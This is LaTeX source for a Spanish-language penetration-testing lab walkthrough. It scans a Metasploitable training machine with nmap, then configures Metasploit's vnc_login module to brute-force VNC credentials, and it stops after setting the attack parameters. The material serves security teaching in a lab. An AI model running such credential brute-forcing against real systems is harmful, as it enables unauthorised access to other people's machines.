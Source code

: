 \documentclass[a4,12pt,onecolum]{article}
\begin{document}
\begin{enumerate}
	\item Realizamos un escaneo de puertos para verificar que el de VNC está abierto. Con NMAP se ve claramente, indica el nombre de servicio.
	\begin{verbatim}
		$ sudo nmap metasploitable
	\end{verbatim}

	\item Accedemos a la consola de Metasploit.
		\begin{verbatim}
			$ sudo msfconsole
		\end{verbatim}

	\item Realizamos una búsqueda de los módulos relativos a VNC.
		\begin{verbatim}
			msf > search vnc
		\end{verbatim}

	\item Utilizaremos el módulo \emph{vnc\_login}, lo selecionamos.
		\begin{verbatim}
			msf > use auxiliary/scanner/vnc/vnc_login
		\end{verbatim}

	\item Fijamos los parámetros del ataque. Figura \ref{fig:vnc1}.
		\begin{enumerate}
			\item Máquina objetivo \emph{metasploitable}.
			\item Número de hilos de ejecución 20.
			\item Velocidad de prueba de credenciales.
		\end{enumerate}
		\begin{verbatim}
			msf auxiliary(vnc\_login) > set RHOSTS metasploitable
			msf auxiliary(vnc\_login) > set THREADS 20
			msf auxiliary(vnc\_login) > set BRUTEFORCE_SPEED 1
		\end{verbatim}

\begin{figure}[htbp]
\centering
\includegraphics[width=1.0\textwidth]{./images/vnc/parametros_ataque_vnc.png}
\caption{Parámetro ataque VNC.}
\label{fig:vnc1}
\end{figure}


\end{enumerate}
\end{document}
